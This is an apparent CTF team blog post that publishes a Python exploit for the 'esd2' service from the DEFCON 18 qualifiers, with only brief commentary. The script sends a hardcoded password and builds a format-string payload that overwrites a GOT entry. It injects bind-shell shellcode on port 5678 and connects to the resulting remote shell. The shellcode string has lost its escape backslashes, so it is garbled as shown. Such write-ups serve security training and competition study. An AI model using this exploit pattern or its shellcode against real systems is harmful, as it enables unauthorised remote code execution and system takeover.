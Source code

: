 ```yaml
---
title: 'DEFCON 18 Quals: Pwtent Pwnables 500 esd2 exploit'
author: longld
layout: post

aktt_notify_twitter:
  - no
shorturls:
  - 'a:4:{s:5:"bitly";s:0:"";s:9:"permalink";s:78:"http://www.vnsecurity.net/2010/05/defcon-18-quals-pwtent-pwnables-500-exploit/";s:7:"tinyurl";s:26:"http://tinyurl.com/3xuur84";s:4:"isgd";s:18:"http://is.gd/eBZF7";}'
tweetbackscheck:
  - 1408358975
twittercomments:
  - 'a:0:{}'
tweetcount:
  - 0
categories:
  - 'CTF - CLGT Crew'
tags:
  - '2010'
  - CLGT
  - CTF
  - DEFCON
---
```

CLGT did not solved this during the quals! Here is the exploit for  the **esd2 **[leaked][1] from pp200 (thanks beist for sharing). More analysis & write up for the real pp500 will come later:

<pre class="brush: python; title: ; notranslate" title="">#!/usr/bin/env python

import socket
import struct
import telnetlib
import time

HOST = '192.168.56.101'
PORT = 8302

def xor_input(data):
    static = "%5d | %5dn" + "x00"*4
    out = ""
    for i in range(len(data)):
        out += chr(ord(static[i]) ^ ord(data[i]))
    return out

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

# send password
s.send("sp3wn0w" + "n")

# prepare the payload
# overwrite lseek@plt, original value = 0x08048ae2
target = 0x804a30c
# shellcode address = 0x0804a040 + 142 bytes (padding + fmt_string)
ret = 0x0804a0ce
# value to write into target
write_byte = 0xa0ce
# payload = target + padding(128 - 4) + 14 (fmt_string) + shellcode
padding = "A"*128
fmt_string = "%" + str(write_byte) + "u%24$hn"
fmt_string = xor_input(fmt_string)

# bindshell: port 5678
shellcode = "x00x29xc9x83xe9xecxd9xeexd9x74x24xf4x5bx81x73x13x63x7dxa9x09x83xebxfcxe2xf4x09x1cxf1x90x31x15xb9x0bx75x53x20xe8x31x3fxfbx4bx31x17xb9xc4xe3xe4x3ax58x30x2fxc3x61x3bxb0x29xb9x09xb0x29x5bx30x2fx19x17xaexfdx3ex63x61x24xc3x53x3bx2cxfex58xaexfdxe0x70x96x2dxc1x26x4cx0exc1x61x4cx1fxc0x67xeax9exf9x5dx30x2ex19x32xaexfdxa9x09"

payload = struct.pack("&lt;L", target) + padding[4:] + fmt_string + shellcode + "n"

print "Sending payload...", repr(payload)
s.send("cn" + str(len(payload)) +"n")
s.send(payload)
# trigger the read_blob that calls lseek()
s.send("rn" + "10n")

print "Connecting to remote shell port 5678..."
time.sleep(4)
t = telnetlib.Telnet(HOST, 5678)
t.write("idnn")
t.interact()

t.close()
s.close()
</pre>

 [1]: http://beist.org/esd2